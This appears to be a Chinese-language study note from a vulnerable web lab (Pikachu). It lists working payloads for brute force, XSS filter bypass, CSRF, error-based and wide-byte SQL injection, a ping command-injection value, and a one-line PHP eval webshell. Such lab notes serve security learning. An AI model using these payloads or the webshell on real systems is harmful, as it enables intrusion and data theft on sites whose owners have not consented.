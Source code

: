 # 暴力破解

## 基于表单的破解
 
admin 123456  
test abc123  
pikachu 000000

## 验证码绕过（on server）

拦截前端刷新验证码的接口，后面的步骤同上

## 验证码绕过（on client）

直接接口调用，同无验证码

## token防爆破

使用pitchfork attack

![img.png](img.png)

![img_1.png](img_1.png)

分三份
![img_2.png](img_2.png)

总结

|  攻击模式 | Payloads  | 攻击效果  |
|---|---|---|
|Sniper   |  1 |一个参数不变，另一个遍历字典|
|  Batteringram | 1  |  两个参数同步遍历一个字典  |
| Pitchfork  | 	N(取决于参数有几个)  |  两个参数同步遍历两个不同的字典   |
|  Cluster bomb |  	N(取决于参数有几个) | 两个字典的笛卡尔积  |
> 以上总结作者：ReisenSS
> 链接：https://juejin.cn/post/7232091653065834555
> 来源：稀土掘金
> 著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
> 

# XSS

## 反射型xss（get）

输入<script>alert(1)</script>，前端长度限制修改html即可解除限制

## 反射型xss（post）

同上

## 存储型xss

## DOM型xss

javascript:alert(1)
![img_3.png](img_3.png)
![img_4.png](img_4.png)
![img_5.png](img_5.png)

## xss过滤

过滤了script

使用`<img src=1 onerror=alert(1)/>` 绕过

## xss js输出

# csrf

通过伪造url跳转

## post

通过伪造恶意页面，将请求嵌入隐藏表单

# SQL注入

常用函数：database(), version(), user(), group_concat()

获取表名语句  
```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x74657374
```

## delete 注入

payload: `57 or updatexml(1,concat(0x7e,database()),0)`

## insert 注入

payload: `' and extractvalue(1,concat(0x7e,(database()))) and '1'='1`

## http-header 注入

payload: `' or updatexml(1,concat(0x7e,database()),0) or '`

## 盲注

### 布尔盲注

### 时间盲注

## 宽字节注入

宽字节注入指的是 mysql 数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为'，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击。

%ef也是可以的
```sql
select id,email from member where username='$name'
# name=1%df' union select database(),2 #
select id,email from member where username='1�\' union select database(),2 #'
```

以上sql语句中的`�\ `即`%df%5c`会被MySQL当作一个汉字处理，因此后面的单引号就逃逸了。

# RCE

remote command/code execute

## ping

127.0.0.1 | calc

## eval

## File Inclusion

### local

一句话木马：  
<?php @eval($_POST['123']);?>

可以配合文件上传webshell

### remote

## 文件下载

路径穿越

## 文件上传

可以结合文件包含漏洞解析图片木马



# 参考

- https://www.cnblogs.com/henry666/p/16947270.html
- https://cs-cshi.github.io/cybersecurity/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%BA%A6%E8%AE%B2%E8%A7%A3/